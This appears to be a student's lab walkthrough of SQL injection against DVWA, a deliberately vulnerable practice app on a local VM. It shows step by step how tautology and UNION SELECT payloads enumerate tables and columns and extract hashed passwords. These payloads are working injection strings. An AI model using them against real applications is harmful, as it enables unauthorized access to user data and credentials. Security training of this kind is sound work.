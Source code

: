 ## SQL Injection
**Win10 VM**

Problem Solving process for SQL Injections:
- Go to http://127.0.0.1/DVWA-master/ and click on SQL Injection.
- For the User ID, type in "1", "2", "3", etc to see the user details displayed.
- The SQL statement for retrieving the user records probably looks like the following.
```SQL
SELECT firstname, surname FROM user WHERE userid = '$id'
```
- So when you type 1 for the UserID, the SQL statement becomes:
```SQL
SELECT firstname, surname FROM user WHERE userid = '1'
```
- Type in the following into the User ID input field
```SQL
ppp' OR '0' = '0
```
 - The SQL statement now becomes the following
	 - The SQL statement now will retrieve all the users from the table so you will see a list of all users displayed
```SQL
SELECT firstname, surname FROM user WHERE userid = 'ppp' OR '0' = '0'
```
> Can we get more information about the users? 
> There should be a **table containing the user information.** 
> What would be the name of this table containing user information?

- Let assume that the table name is "user".
- Type in the following into the User ID input field
```SQL
ppp' OR '0' = '0' UNION SELECT userid, user FROM user #
```
OR
```SQL
ppp' OR '0' = '0' UNION SELECT userid, user FROM user --
```
- The SQL statement now becomes the following.
	- The # or -- means to treat the rest of the line as a comment.
	- Note that different databases (e.g. MySQL, Microsoft SQL, etc) may support different characters as comments.
```SQL
SELECT firstname, surname FROM user WHERE userid = 'ppp' OR '0' = '0' UNION SELECT userid, user FROM user #'
```
- However, we get an error message that the table dvwa.user does not exist. So let's try the table name "users."
- Type in the following into the User ID input field
	- Now we get the error message that the column "userid" is unknown. Let's try "user_id" for the colum name.
```SQL
ppp' or '0' = '0' union select userid, user from users #
```
- Type in the following into the input field
	- Now, the records are displaying the User IDs and Users.
```SQL
ppp' or '0' = '0' union select user_id, user from users -- 
```
--- 
Extracting passwords from tables:
- Type in the following into the User ID input field
	- Hashed passwords are now displayed.
```SQL
ppp' or '0' = '0' union select user_id, password from users #
```

